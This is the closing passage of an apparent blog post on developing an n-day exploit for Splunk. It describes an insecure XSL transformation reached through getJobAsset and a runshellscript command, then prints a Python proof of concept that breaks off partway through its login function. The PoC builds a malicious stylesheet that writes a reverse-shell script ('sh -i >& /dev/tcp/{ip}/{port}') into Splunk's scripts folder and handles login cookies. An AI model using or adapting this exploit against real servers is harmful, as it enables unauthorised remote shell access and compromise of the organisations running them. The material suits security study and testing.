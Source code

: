2. Trigger insecure XSL transformation via `getJobAsset` function
![3](burp.png)

3. Execute SPL command runshellscript to send the reverse shell 🤩
![3](runshell.gif)

# Conclusion + PoC

Thank you for reading my first blog post :) I hope you've found it interesting and learned something new about n-day exploit development 😎

POC:
```python
#!/usr/bin/env python3

import argparse
import requests
import json

# proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
proxies = {}

def generate_malicious_xsl(ip, port):
    return f"""<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exsl="http://exslt.org/common" extension-element-prefixes="exsl">
  <xsl:template match="/">
    <exsl:document href="/opt/splunk/bin/scripts/shell.sh" method="text">
        <xsl:text>sh -i &gt;&amp; /dev/tcp/{ip}/{port} 0&gt;&amp;1</xsl:text>
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
"""

def login(session, url, username, password):
    login_url = f"{url}/en-US/account/login?return_to=%2Fen-US%2Faccount%2F"
    response = session.get(login_url, proxies=proxies)
    cval_value = session.cookies.get("cval", None)

    if not cval_value:
        return False

    auth_payload = {
        "cval": cval_value,
        "username": username,
        "password": password,
        "set_has_logged_in": "false",
```